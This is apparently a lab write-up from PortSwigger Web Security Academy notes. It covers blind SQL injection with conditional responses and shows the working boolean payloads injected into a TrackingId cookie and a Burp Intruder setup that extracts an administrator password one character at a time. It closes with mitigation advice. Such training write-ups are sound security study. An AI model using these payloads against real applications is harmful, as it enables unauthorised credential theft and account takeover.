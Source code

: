 # Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Pets HTTP/2
```

### 2. Modified Tracking ID to Test Boolean Conditions

**Injected Payload:**
```sql
' AND '1'='1
```

**The Tracking ID becomes:**
```http
Cookie: TrackingId=<ID>'+AND+'1'='1;
```
This returned a "Welcome back" message.

**Injected Payload:**
```sql
' AND '1'='2
```

**The Tracking ID becomes:**
```
Cookie: TrackingId=<ID>'+AND+'1'='2;
```
This did not return a "Welcome back" message. This confirms that the response can be controlled by injecting boolean conditions.

### 3. Verified the Existence of the `users` Table

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returned a "Welcome back" message, confirming that a table named `users` exists.

`LIMIT 1` ensures that the subquery returns exactly one row.

Without LIMIT, `' AND (SELECT 'a' FROM users)='a` the subquery may return multiple rows, which causes an error (will not return the "Welcome back" message). SQL doesn't allow a **scalar subquery** (one used in a comparison like = 'a') to return multiple rows.

### 4. Verified the `administrator` Username

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

This returned a "Welcome back" message, confirming there is a user named `administrator`.

### 5. Determined the Password Length and Sent to Intruder

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried increasing values to identify the password length until the query returned a "Welcome back" message:

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

This confirmed that the password length is 20.

### 6. Retrieved the Password Using Intruder (Sniper Attack)

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Explanation:

- `SUBSTRING(string_expression, start_position, length)` is a SQL function used to extract part of a string.
- `password` is the string to extract from.
- Start at position `1` (SQL uses 1-based indexing).
- Extract `1` character.
So this returns the first character of the password field.

In Burp Intruder, select `a` and click the **Add §** button:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
```
`§a§` is replaced with each character from the payload list.

Payload tab configuration:
Payload type: simple list
Payload set: a-z and 0-9 (assuming no uppercase letters)

In the Grep-Match tab (from Settings), search for the value `Welcome back`.

Start the Sniper attack.

This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.

![burpsuite response](./misc-images/09-1.png)

Repeated the process for the second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character.

Repeated the process for all 20 characters and successfully retrieved the complete password.

Logged in as the administrator using the retrieved password.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how blind SQL injection can be used to extract data character-by-character using conditional responses and boolean logic.

---

## Notes

Checking for ' and '' both not give a "Welcome back" message